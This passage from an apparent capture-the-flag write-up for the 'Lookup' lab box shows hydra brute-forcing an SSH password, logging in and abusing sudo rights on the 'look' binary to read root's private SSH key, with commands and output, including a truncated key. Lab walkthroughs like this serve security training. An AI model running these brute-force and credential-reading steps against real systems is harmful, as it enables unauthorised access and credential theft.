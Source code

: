 ### Brute-forcing the Password

Now that we have a list of possible passwords for the `think` user, we can use `hydra` to test them against the `SSH` service to see if any of them is valid.

```console
$ hydra -l think -P passwords.txt ssh://lookup.thm
...
[22][ssh] host: lookup.thm   login: think   password: jo[REDACTED]k)
1 of 1 target successfully completed, 1 valid password found
```

Since we discovered a valid password, we can use **SSH** to obtain a shell as the `think` user and read the user flag at `/home/think/user.txt`.

```console
$ ssh think@lookup.thm
...
think@lookup:~$ wc -c user.txt
33 user.txt
```

## Shell as root

### Sudo Privilege

Checking the `sudo` privileges for the `think` user, we can see that we are able to run the `look` binary as `root`.

```console
think@lookup:~$ sudo -l
[sudo] password for think:
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

The `look` binary is similar to `grep` in a sense that its main purpose is to search for lines in a file beginning with a specified string. If it finds any lines that start with the specified string, it prints them.

We can turn this into **arbitrary file read** by specifying the string to search as an empty string, which means every line in the file will match, and it will print the contents of the whole file. We can also see [this method mentioned here in GTFOBins](https://gtfobins.github.io/gtfobins/look/#suid).

Using this method, we are successful at reading the private **SSH** key for the `root` user as such:

```console
think@lookup:~$ sudo /usr/bin/look '' /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
DgTNYOtefYf4OEpwAAABFyb290QHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
```
